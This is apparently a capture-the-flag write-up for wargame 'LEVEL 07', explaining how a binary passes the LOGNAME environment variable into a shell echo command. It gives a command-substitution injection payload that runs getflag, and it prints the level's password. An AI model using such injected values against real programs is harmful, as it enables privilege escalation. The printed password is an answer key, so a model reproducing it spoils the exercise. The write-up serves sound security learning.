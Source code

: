 # LEVEL 07

## 💡 Explanation

In this level we have to:
1. Check the file ./level07 permissions
2. Using `strings` we can see that it executes `LOGNAME /bin/echo %s` and with `ltrace` we see that it calls `getenv("LOGNAME")`
3. We have to export the LOGNAME variable to execute `getflag` when called! Voilà

## 👾 Commands

To find the solution:
```
ls -la level07
strings level07
ltrace ./level07
env | grep "LOGNAME"
export -p | grep "LOGNAME"
unset LOGNAME
```
To execute the solution there are two options:
- `export LOGNAME=$\(getflag\); ./level07`
- `export LOGNAME=\'getflag\'; ./level07` (*)

(*) Be careful with the quotes on que second command, it should be (`) instead of (').

## 🔍 Resources

- [How To Assign Output of a Linux Command to a Variable](https://www.tecmint.com/assign-linux-command-output-to-variable/)
- [Difference between export VAR=blabla and VAR=blabla](https://forum.ubuntu-fr.org/viewtopic.php?id=334687)
- [Linux export command](https://www.tutorialspoint.com/unix_commands/export.htm)
- [Linux export -p type declaration](https://abs.traduc.org/abs-5.1-fr/ch09s04.html)
- [Linux unset command](https://stackoverflow.com/questions/6877727/how-do-i-delete-an-exported-environment-variable)

## 🔥 Password
`fiumuikeil55xe9cu4dood66h`
